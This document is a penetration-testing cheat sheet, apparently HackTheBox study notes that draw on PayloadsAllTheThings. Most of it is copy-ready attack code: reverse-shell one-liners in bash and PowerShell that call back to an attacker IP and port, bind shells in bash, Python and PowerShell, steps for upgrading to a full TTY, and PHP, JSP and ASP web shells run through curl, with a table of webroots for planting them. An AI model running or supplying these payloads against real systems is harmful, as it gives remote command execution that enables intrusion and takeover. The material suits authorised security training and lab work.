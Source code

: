 - [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) A comprehensive list of reverse and bind shell commands

## Reverse Shell Commands

### Bash 

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

### PowerShell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Bind Shell

We use a bind shell to connect to the targets listening port, the opposite of a reverse shell, in which, a target connects to our listening port.

### Bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

### Python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

### PowerShell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```


## Upgrading TTY

This is done so we can operate as we would in a normal shell, having access to all commands.

### Python
```shell-session
datboyblu3@htb[/htb]$ python -c 'import pty; pty.spawn("/bin/bash")'
```

After running the above command enter 'ctrl+z' to background the shell and go back to your local terminal and input the following:

```
stty raw -echo
fg

[Enter]
[Enter]
```

- fg brings back our netcat shell to the foreground. Hit enter to get back our shell.
- use *stty size* to output the rows and columns
- To set and configure a realistic terminal...
```
export TERM=xterm-256color
stty rows row_number columns column_number
```

## Web Shell

A web shell is a web srcipt a la PHP or ASPX, that accepts commands through HTTP request parameters such as GET or POST request parameters, executes our commands and prints output to the web page.

### Uploading a Web Shell

- The web shell needs to be placed into the remote hosts web directory to execute the script via the browser
- This is typically done via a vulnerable upload feature

Here the default webroots for common web servers

| Web Sever   | Default Webroot |
| ----------- | ----------- |
| Apache      | /var/www/html/       |
| Nginx       | /var/local/nginx/html |
| IIS         | c:\inetpub\wwwroot\ |
| XAMPP       | C:\xampp\htdocs |

### Web Shell Examples

**php**

```php
<?php system($_REQUEST["cmd"]); ?>
```

**jsp**
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

**asp**
```asp
<% eval request("cmd") %>
```

### Accessing the Web Shell

**via curl**
``` bash
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

**via the browser**
```bash
http://SERVER_IP:PORT/shell.php?cmd=id
```